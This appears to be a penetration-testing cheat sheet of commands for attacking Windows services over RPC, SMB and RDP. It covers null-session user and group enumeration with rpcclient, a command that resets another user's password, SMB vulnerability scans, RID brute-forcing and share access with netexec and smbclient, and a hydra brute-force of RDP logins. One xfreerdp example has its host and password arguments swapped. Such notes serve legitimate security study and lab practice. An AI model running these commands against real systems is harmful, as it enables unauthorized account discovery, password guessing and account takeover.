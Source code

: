 ## RPC

```
rpcclient -U '%' -N 192.168.162.122
rpcclient 192.168.162.122 -N

rpcclient -W '' -c querydispinfo -U''%'' '192.168.181.175'

# Authenticated
enumdomusers
queryuser 1634 #RID
enumdomgroups
getdompwinfo # Password Policy
queryusergroups 0x46c
setuserinfo christopher.lewis 23 'Admin!23' #Change Pass
```

## SMB

Common Vulnerabilities
```
nmap -v -script smb-vuln* -p 139,445 10.10.10.10
```

```
enum4linux-ng -A 192.168.10.10

netexec smb <ip> -u '' -p '' --shares

netexec smb <ip> -u '' -p '' --rid-brute 10000
netexec smb <ip> -u 'Guest' -p '' --rid-brute 10000

netexec smb <ip> -u 'Guest' -p '' --shares
```

List and Access:

```
smbclient -p 4455 -L //192.168.10.10/ -U noman --password=noman1234

smbclient -p 4455 //192.168.10.10/scripts -U noman --password noman1234
```

## RDP

Bruteforce
```
hydra -t 4 -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip
```

Login:

```
xfreerdp3 /v:noman /u:passwordnoman /p:192.168.10.10 /clipboard +dynamic-resolution /sec: rdp
xfreerdp3 /u:CONTOSO\JohnDoe /p:Pwd123! /v:rdp.contoso.com
xfreerdp3 /u:JohnDoe /p:Pwd123! /w:1366 /h:768 /v:192.168.1.100:4489
```
